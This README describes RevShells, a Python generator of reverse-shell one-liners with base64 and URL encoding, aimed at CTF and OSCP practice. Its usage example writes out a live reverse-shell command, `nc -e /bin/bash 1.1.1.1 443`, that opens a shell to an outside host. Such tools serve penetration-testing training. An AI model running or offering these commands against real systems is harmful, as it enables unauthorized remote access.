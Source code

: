 # RevShells


RevShell is a Python-based tool that was built to have a variety of shells all in one place. This project was created to be used in CTFs and OSCP in mind. This tool allow users to choose from a list of reverse shells such as bash, netcat, ncat, lua, powershell, ruby, perl, java, and python. RevShells can encode these shells with URL encoding and base64.

## Usage
  `python3 revshells.py -h`  
  will open a help menu, which will show you the needed syntax.

  ex:
      `python3 revshells.py -l or python3 revshells.py --list`  
  will give you a list of the shells that are available at the moment.   
        Once you see a shell you want, use -t or --type and the shell name to invoke it.
  
  `python3 revshells.py -i 1.1.1.1 -p 443 -t bash`  
    output: `nc -e /bin/bash 1.1.1.1 443`

 `--encode or -e` is entirely optional.  
 Your revshell will look like the above output if you do not use it.  
 URL encoding and base64 encoding were kept in mind and have been tested.
  
## Commands
    options:
    -h or --help: Display available commands and their functionalities.
    options:
    -i or --ip: your IP address
    -p or --port: your port 
    -t or --type: Shell type to generate
    -l or --list: List all available shell types
    -a or --all: Generate all shell types
    -e or  --encode: Encode payload (base64 or url) this one is optional.
                        


Installation Instructions

To use the Rev-Shell tool, follow these steps:  
Clone the Repository:

    git clone https://github.com/DelaDirty/RevShells.git  

Navigate to the Directory:

    cd RevShells



# Disclaimer
This tool is intended for educational and testing purposes only. Misuse of this tool for unauthorized access to systems or networks is strictly prohibited. The developers of this tool are not responsible for any illegal or unethical use of the tool






